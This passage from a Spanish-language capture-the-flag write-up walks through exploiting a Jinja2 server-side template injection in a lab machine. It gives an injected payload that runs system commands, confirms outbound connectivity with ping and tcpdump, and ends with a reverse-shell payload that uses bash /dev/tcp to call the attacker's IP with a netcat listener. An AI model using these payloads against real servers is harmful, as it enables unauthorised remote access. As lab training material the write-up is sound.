 Escríbelo en la URL y observa el resultado cuando envías la petición:

<p align="center">
<img src="/assets/images/THL-writeup-caldoAvecrem/Captura7.png">
</p>

Excelente, se está ejecutando el comando **id**.

Vamos a lanzar una **traza ICMP** a nuestra máquina para ver si es posible la conexión.

Primero, inicia la captura de **paquetes ICMP** con **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Ejecuta el siguiente comando desde la URL:
{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ping -c 2 Tu_IP').read() }}
```
{% endraw %}

Observa si se capturó algo:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
13:00:30.885858 IP 192.168.10.1 > Tu_IP: ICMP echo request, id 6, seq 0, length 64
13:00:30.885889 IP Tu_IP > 192.168.10.1: ICMP echo reply, id 6, seq 0, length 64
13:00:30.890428 IP 192.168.10.1 > Tu_IP: ICMP echo request, id 6, seq 256, length 64
13:00:30.890449 IP Tu_IP > 192.168.10.1: ICMP echo reply, id 6, seq 256, length 64
```
Hay conexión, entonces podemos mandarnos una **Reverse Shell**.

Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Prueba esta **Reverse Shell** y ejecútala:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'").read() }}
```
{% endraw %}
